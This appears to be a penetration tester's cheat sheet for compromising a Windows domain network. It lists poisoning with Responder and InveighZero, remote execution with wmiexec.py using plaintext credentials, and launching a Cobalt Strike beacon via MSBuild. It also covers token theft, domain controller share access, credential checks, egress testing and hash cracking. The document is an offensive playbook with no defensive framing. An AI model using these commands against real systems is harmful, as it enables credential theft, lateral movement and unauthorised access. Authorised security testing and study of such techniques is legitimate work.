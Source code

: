 
InveighZero
---------------------------------------------------------------
C# man-in-the-middle spoof LLMNR,NBNS,mDNS,DNS, and DHCPv6.

responder
---------------------------------------------------------------
sudo /usr/sbin/responder -I eth0

Bloodhound
---------------------------------------------------------------
Check unrolled RDP rights for all compromised users

Remote Interaction
---------------------------------------------------------------
python3 wmiexec.py domain/user:password@remotecompany.corp.com

Cobalt Strike Beacon.
---------------------------------------------------------------
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild msbuild_x64.xml

From cobalt strike:
execute-assembly 

steal token of process running as other user
steal_token *first######*

shell dir \\domaincontroller.comp.com\C$

Check for AutoLogon Files
---------------------------------------------------------------

Credninja to test if compromised credentials have local administrator rights

Check egress
---------------------------------------------------------------
Egress-Access
Cobalt strike

hashcracking
---------------------------------------------------------------
GoCrack
